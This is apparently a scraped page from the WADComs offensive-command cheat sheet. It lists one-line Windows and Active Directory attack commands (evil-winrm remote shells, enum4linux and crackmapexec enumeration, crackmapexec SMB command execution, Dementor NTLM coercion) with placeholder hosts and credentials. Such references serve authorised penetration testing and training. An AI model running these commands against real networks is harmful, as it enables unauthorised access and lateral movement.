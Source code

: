[evil-winrm -i 10.10.10.1 -c pub.pem -k priv.pem -S -r EVILCORP](https://wadcoms.github.io/wadcoms/Evil-Winrm-PKINIT/)
-   [Exploitation](https://wadcoms.github.io/wadcoms/Evil-Winrm-PKINIT/#Exploitation)
 -   [PFX](https://wadcoms.github.io/wadcoms/Evil-Winrm-PKINIT/#PFX)
 -   [WMI](https://wadcoms.github.io/wadcoms/Evil-Winrm-PKINIT/#WMI)
 -   [Windows](https://wadcoms.github.io/wadcoms/Evil-Winrm-PKINIT/#Windows)

[evil-winrm -i 10.10.10.1 -u john -p password123](https://wadcoms.github.io/wadcoms/Evil-WinRM/)
-   [Exploitation](https://wadcoms.github.io/wadcoms/Evil-WinRM/#Exploitation)
 -   [Username](https://wadcoms.github.io/wadcoms/Evil-WinRM/#Username)
 -   [Password](https://wadcoms.github.io/wadcoms/Evil-WinRM/#Password)
 -   [WMI](https://wadcoms.github.io/wadcoms/Evil-WinRM/#WMI)
 -   [Linux](https://wadcoms.github.io/wadcoms/Evil-WinRM/#Linux)
 -   [Windows](https://wadcoms.github.io/wadcoms/Evil-WinRM/#Windows)

[enum4linux -a 10.10.10.1](https://wadcoms.github.io/wadcoms/Enum4Linux-NoCreds/)
-   [Enumeration](https://wadcoms.github.io/wadcoms/Enum4Linux-NoCreds/#Enumeration)
 -   [No Creds](https://wadcoms.github.io/wadcoms/Enum4Linux-NoCreds/#No_Creds)
 -   [Linux](https://wadcoms.github.io/wadcoms/Enum4Linux-NoCreds/#Linux)

[enum4linux -u john -p password123 -a 10.10.10.1](https://wadcoms.github.io/wadcoms/Enum4Linux-Creds/)
-   [Enumeration](https://wadcoms.github.io/wadcoms/Enum4Linux-Creds/#Enumeration)
 -   [Username](https://wadcoms.github.io/wadcoms/Enum4Linux-Creds/#Username)
 -   [Password](https://wadcoms.github.io/wadcoms/Enum4Linux-Creds/#Password)
 -   [Linux](https://wadcoms.github.io/wadcoms/Enum4Linux-Creds/#Linux)

[python3 dementor.py -u john -p password123 -d test.local 10.10.10.2 10.10.10.1](https://wadcoms.github.io/wadcoms/Dementor/)
-   [Exploitation](https://wadcoms.github.io/wadcoms/Dementor/#Exploitation)
 -   [Username](https://wadcoms.github.io/wadcoms/Dementor/#Username)
 -   [Password](https://wadcoms.github.io/wadcoms/Dementor/#Password)
 -   [RPC](https://wadcoms.github.io/wadcoms/Dementor/#RPC)
 -   [NTLM](https://wadcoms.github.io/wadcoms/Dementor/#NTLM)
 -   [Linux](https://wadcoms.github.io/wadcoms/Dementor/#Linux)
 -   [Windows](https://wadcoms.github.io/wadcoms/Dementor/#Windows)

[crackmapexec smb 10.10.10.1 -u 'john' -p 'password123' -X '$Host'](https://wadcoms.github.io/wadcoms/Crackmapexec-Exec-SMB/)
-   [Exploitation](https://wadcoms.github.io/wadcoms/Crackmapexec-Exec-SMB/#Exploitation)
 -   [Username](https://wadcoms.github.io/wadcoms/Crackmapexec-Exec-SMB/#Username)
 -   [Password](https://wadcoms.github.io/wadcoms/Crackmapexec-Exec-SMB/#Password)
 -   [SMB](https://wadcoms.github.io/wadcoms/Crackmapexec-Exec-SMB/#SMB)
 -   [Linux](https://wadcoms.github.io/wadcoms/Crackmapexec-Exec-SMB/#Linux)

[crackmapexec smb 10.10.10.1 -u 'john' -p 'password123' --groups --local-groups --loggedon-users --rid-brute --sessions --users --shares --pass-pol](https://wadcoms.github.io/wadcoms/Crackmapexec-Enum-SMB/)
-   [Enumeration](https://wadcoms.github.io/wadcoms/Crackmapexec-Enum-SMB/#Enumeration)
 -   [Username](https://wadcoms.github.io/wadcoms/Crackmapexec-Enum-SMB/#Username)
 -   [Password](https://wadcoms.github.io/wadcoms/Crackmapexec-Enum-SMB/#Password)
 -   [SMB](https://wadcoms.github.io/wadcoms/Crackmapexec-Enum-SMB/#SMB)
 -   [Linux](https://wadcoms.github.io/wadcoms/Crackmapexec-Enum-SMB/#Linux)
